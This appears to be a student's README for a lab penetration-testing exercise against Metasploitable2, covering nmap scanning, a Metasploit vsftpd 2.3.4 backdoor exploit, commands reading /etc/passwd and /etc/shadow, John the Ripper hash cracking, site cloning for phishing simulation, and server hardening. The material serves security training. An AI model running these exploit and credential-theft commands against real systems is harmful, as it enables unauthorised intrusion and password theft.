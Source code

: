 Task4: Learn penetration testing workflow and exploit vulnerabilities responsibly.


---

## 1. Penetration Testing Methodology
Phases: Reconnaissance → Scanning → Exploitation → Post-Exploitation → Reporting. Follow a structured approach, document every step (commands, outputs, timestamps), and only test systems you are authorized to assess.

---

## 2. Phase 1 — Reconnaissance (Passive)
**Goal:** Gather public information without direct interaction.
**Why:** Identifies potential entry points while minimizing noise.
**Example commands (lab):**
```
whois 192.168.10.4
dig 192.168.10.4
```

---

## 3. Phase 2 — Scanning (Active)
**Goal:** Probe the target for open ports, services, and vulnerabilities.
**Why:** Reveals exploitable weaknesses.
**Key commands:**
```
nmap -sS -sV -A 192.168.10.4
```
**Notes:** -sS = SYN scan, -sV = version detection, -A = OS & script scanning. Save raw outputs and parse for service versions (e.g., vsftpd 2.3.4).

---

## 4. Phase 3 — Exploitation (Metasploit example)
**Goal:** Exploit a known vulnerability in a lab VM (Metasploitable2) to gain access.
**Example — vsftpd 2.3.4 backdoor (lab only):**
```
msfconsole
search vsftpd
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.10.4
exploit
```
If successful, you'll receive a shell.
---

## 5. Phase 4 — Post-Exploitation & Evidence Collection
**Goal:** Assess impact, collect evidence, and avoid causing damage.
**Common commands (shell/meterpreter):**
```
sessions -i l
id
whoami
Uname –a
Cat /etc/passwd
Cat /etc/shadow
```
**Evidence collection tips:**
- Save outputs to files:  `hashes.txt`.
- Cleanly exit shells with `exit` to avoid leaving active sessions.

---

## 6. Phase 5 — Reporting & Deliverables
Include:
- Executive summary for stakeholders
- Technical findings with proof (screenshots, logs)
- Risk rating (Low/Medium/High/Critical)
- Remediation recommendations and timeline
- Appendix with raw command outputs (phase1_recon.txt, nmap_scan_results.txt, msf_session.txt)

  Sample findings table (example):
| Finding | Evidence | Risk | Recommendation |
|---|---:|---:|---|
| Open FTP (vsftpd 2.3.4) | nmap + banner | High | Upgrade vsftpd / disable service / restrict access |
| Outdated Apache modules | nikto | Medium | Update modules / add WAF |
| Weak SSH config | ssh banner | Medium | Enforce key auth / disable root login |

---
## 7. Password Attacks (John the Ripper)
**Crack hashes with John the Ripper:**
Save hashes from `hashdump` to `hashes.txt` then:
```
john hashes.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

## 8. Social Engineering (Simulation Only)
**Goal:** Raise awareness using simulated phishing (no real victims).
**Tools:** Built a python tool for phishing url Detection.
**Quick flow:** Clone target site with SET → host locally (`python3 -m http.server 8000`) → use for awareness exercises only.
**Ethics:** Never send real phishing emails. Use simulations and training materials only.

## 9. Malware Basics (Benign Analysis)
**Static analysis:** use `strings`, `file`, and disassembly tools on benign samples.
**Dynamic analysis:** run in sandbox (Cuckoo Sandbox) or isolated VM; submit benign files and observe behavior.


---

## 10. System Hardening & Mitigations
**Open FTP (vsftpd 2.3.4):**
```bash
sudo apt update && sudo apt install --only-upgrade vsftpd
sudo systemctl disable --now vsftpd
sudo ufw deny 21/tcp
```
**SSH improvements:**
```bash
sudo sed -i 's/^PermitRootLogin\s.*/PermitRootLogin no/' /etc/ssh/sshd_config
sudo sed -i 's/^PasswordAuthentication\s.*/PasswordAuthentication no/' /etc/ssh/sshd_config
sudo systemctl restart sshd
```
**Web hardening:** Keep packages updated, disable unused modules (`sudo a2dismod <module>`), deploy WAF (ModSecurity).

---
## 11. Safety, Ethics & Rules of Engagement (RoE)
- Always obtain written authorization before testing non-owned systems.
- Do not perform destructive actions (deletion, ransomware, pivoting to production systems).
- Preserve evidence and minimize impact; prefer read-only collection.
- Document timestamps and chain of custody for artifacts.
- If uncertain, stop and get written clarification from the owner.
  

